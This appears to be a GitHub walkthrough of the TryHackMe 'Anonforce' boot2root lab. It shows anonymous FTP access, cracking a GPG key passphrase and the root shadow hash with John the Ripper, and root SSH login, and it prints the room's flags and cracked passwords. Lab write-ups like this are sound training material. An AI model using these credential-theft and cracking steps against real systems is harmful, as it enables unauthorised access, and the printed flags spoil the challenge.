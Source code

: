 # <div align="center">[Anonforce - TryHackMe Walkthrough | Complete Guide to Boot2Root](https://tryhackme.com/r/room/bsidesgtanonforce)</div>
<div align="center">boot2root machine for FIT and bsides guatemala CTF</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b2bd9f6b-8995-402a-8e54-2c5596bc16cc" height="200"></img>
</div>

## Task 1. Anonforce Machine


### User.txt
```
606083fd33beb1284fc51f411a706af8
```
### Root.txt
```
f706456440c7af4187810c31c6cebdce
```

---

## Initial Enumeration
My journey into the Anonforce TryHackMe boot2root challenge started with a thorough nmap scan to enumerate open ports and services on the target machine.
```
nmap -sC -sV <Ip>
```
The scan revealed two interesting open services:
* FTP (Port 21) running `vsftpd 3.0.3`, which allowed anonymous login.
* SSH (Port 22) running `OpenSSH 7.2`.

Here's the relevant part of the scan output:

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
Given the anonymous FTP login was enabled, I decided to investigate it further.
```

FTP Login and File Enumeration
Connecting to the FTP service was straightforward. I logged in using default anonymous credentials:
``bash
ftp <IP>
``
* Credentials: `anonymous:anonymous`

After logging in successfully, I explored the remote file system. The root FTP directory contained several folders, and I noticed a directory named home. Digging deeper, I navigated into:
```
ftp> cd home
ftp> ls
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
```
Capturing the User flag
Inside the melodias directory, there was an interesting file named user.txt. I downloaded the file to capture the first flag:
```
ftp> get user.txt
```
Once retrieved, I displayed the content of the file:
```
cat user.txt
```
And here was the user flag:
```
606083fd33beb1284fc51f411a706af8
```

## Discovering and Cracking the GPG Key

While continuing my FTP exploration, I stumbled upon an interesting directory named `notread` that contained two suspicious files:

* `backup.pgp` (an encrypted backup file)
* `private.asc` (a private GPG key)

Naturally, I downloaded both files for offline analysis:

```bash
ftp> get backup.pgp
ftp> get private.asc
```

### Converting Private Key for Cracking

My goal was to extract the passphrase protecting the private key. To do this, I used `gpg2john`, a tool designed to convert GPG private key files into a format suitable for John the Ripper:

```bash
gpg2john private.asc > privatex
```

Once converted, I ran John the Ripper to crack the passphrase:

```bash
john privatex --show
```

And success! The passphrase was revealed as:

```
xbox360
```

---

### Decrypting the Backup File

Armed with the passphrase, I imported the private key into my GPG keyring:

```bash
gpg --import private.asc
```

Then I decrypted the backup file using the discovered password:

```bash
gpg --decrypt backup.pgp
```

The decrypted content revealed a critical piece of information — a list of system users with hashed passwords, including the root hash:

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
```

This was a major breakthrough. I now had the **root hash**.

## Cracking the Root Hash

After extracting the root hash from the decrypted `backup.pgp` file, the next logical step was to crack it. I used **John the Ripper** with the popular `rockyou.txt` wordlist:

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
```

Within seconds, John successfully cracked the root password:

```
hikari (root)
```

This gave me the credentials I needed to gain full root access on the machine.

## Capturing the Root Flag

With the cracked password in hand, I initiated an SSH session as the root user:

```bash
ssh root@10.201.18.12
```

When prompted, I entered the password `hikari`, and I was instantly logged in as **root**.

From here, I navigated to the `/root` directory and captured the final root flag:

```bash
cat /root/root.txt
```

The flag was revealed as:

```
f706456440c7af4187810c31c6cebdce
```


## Conclusion

Anonforce was an exciting Boot2Root challenge that tested my skills in enumeration, cryptography, and privilege escalation. I started with anonymous FTP login, found and cracked a GPG private key, decrypted a backup to extract password hashes, and finally cracked the root password to capture the root flag.

This room is especially good for beginners preparing for certifications like **CompTIA Security+** and **CEH (Certified Ethical Hacker)**, as it covers important practical concepts such as service enumeration, password cracking, and privilege escalation.
